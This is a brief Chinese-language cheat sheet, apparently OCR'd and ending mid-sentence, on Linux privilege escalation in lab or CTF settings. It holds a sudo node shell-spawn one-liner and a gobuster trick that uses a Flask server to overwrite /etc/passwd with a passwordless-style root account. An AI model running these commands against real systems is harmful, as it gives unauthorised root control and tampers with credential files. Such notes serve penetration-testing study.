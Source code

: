 ### 常见提权方式(只写一些经常遇到的)

#### 内核漏洞

kali有集成工具searchsploit，输入版本号去找就行，然后上传到靶机里面

#### sudo提权

> sudo node -e 'child_process.spawn("/bin/bash",{stdio: [0,1,2]})'

#### gobuster提权

```#kali
perl -e 'print crypt("1","aa")'

cat a.py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if len(path) == 36:
        return Response(status=404)
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)

python a.py
 * Serving Flask app 'a'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.64.3:80
Press CTRL+C to quit

#靶机
echo 'aaa:aacFCuAIHhrCM:0:0:x:/root:/bin/bash' > aaa
sudo /usr/bin/gobuster -w aaa -u http://192.168.64.3 -n -q -o /etc/passwd
cat /etc/passwd
su - /aaa
```

#### 直接写入

有些时候sudo -l你会发现可执行的是个可写入文件，那直接写入/bin/bash去提权即可
又如python可以直接执行时
